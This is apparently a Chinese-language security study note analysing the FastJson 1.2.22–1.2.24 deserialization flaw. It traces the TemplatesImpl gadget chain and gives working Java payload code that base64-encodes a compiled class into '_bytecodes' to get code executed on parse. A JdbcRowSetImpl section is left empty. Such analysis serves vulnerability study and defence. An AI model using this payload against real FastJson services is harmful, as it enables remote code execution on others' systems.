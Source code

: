 # FastJson1.2.22-1.2.24 反序列化分析

## 1.漏洞原理

FastJson 反序列化是因为未对`@type`字段进行有效的校验导致可以传入恶意的类且反序列化的时候会自动调用`setter`和无参构造器，在某些情况下会调用`getter`，当这些方法存在利用点的时候，我们通过传入可控利用点成员变量进行攻击利用。

Fastjson通过parse、parseObject处理以json结构传入的类的字符串形时，会默认调用该类的共有setter与构造函数，并在合适的触发条件下调用该类的getter方法。当传入的类中setter、getter方法中存在利用点时，攻击者就可以通过传入可控的类的成员变量进行攻击利用

## 2.利用分析

### 2.1 TemplateImpl

#### (1).环境配置

```xml
  <dependency>
      <groupId>com.alibaba</groupId>
      <artifactId>fastjson</artifactId>
      <version>1.2.22</version>
  </dependency>
```

#### (2).利用链分析

在CC3中，有涉及到关于`TemplatesImpl`链的利用，其中涉及到3个变量为：`_name、_bytecodes、_tfactory`。在刚开始的漏洞原理中提到，fastjson在解析json字符串的时候，会去调用getter方法，

所以说，只解析的json字符串中存在`_outputProperties`的键值对，那么在解析的过程中会调用到`TemplatesImpl#getOutputProperties()`，代码如下：

![image-20240416150617547](./img/image-20240416150617547.png)

然后再接着调用`newTransformer()`后就是字节码的加载，这部分内容可以参考CC3,了解这一点之后，可能会想立马构造payload，但是能成功吗？如果进行的构造如下：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("Exp.class"));
  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":"+ Arrays.toString(bytes) +"," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

编译器是会产生格式错误的报错，显然这种方式是不行的，fastjson应该有自己的处理逻辑，所以往下需要分析一下它的解析过程。



在FastJson解析过程中，关键代码位于`DefaultJSONParser#parseObject()`中，其中关键位置如下：

![image-20240416151603853](./img/image-20240416151603853.png)

在该位置，通过传入的`@type`获取到需要转化的类，对于后续版本中，该类还会涉及到黑名单的绕过。

往下就涉及到field的处理，主要的处理方式是在于`ObjectArrayCodec#deserialze(...)`中

![image-20240416155420886](./img/image-20240416155420886.png)

传入后会先判断token的类型，然后采取指定的操作方式，例如：传入的是`_bytecodes`后会进行base64解码：

![image-20240416155239841](./img/image-20240416155239841.png)

根据以上的分析，这个构造方式就很清晰的：

1. 利用`TemplatesImpl`触发，需要`_name、_tfactory、_bytecodes`变量
2. 为了触发getter，需要定义`_outputProperties`
3. `_bytecodes`赋值的时候存在base64解码，需要编码。

修改以上的payload，增加一个base64编码即可：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/Exp.class"));
  String s = Base64.getEncoder().encodeToString(bytes);

  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":[\""+s+"\"]," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

这里还涉及到一点，由于配置是是类中的私有字段，需要配置`Feature.SupportNonPublicField`。

### 2.2 JdbcRowSetImpl

#### (1).环境配置







#### (2).利用链分析

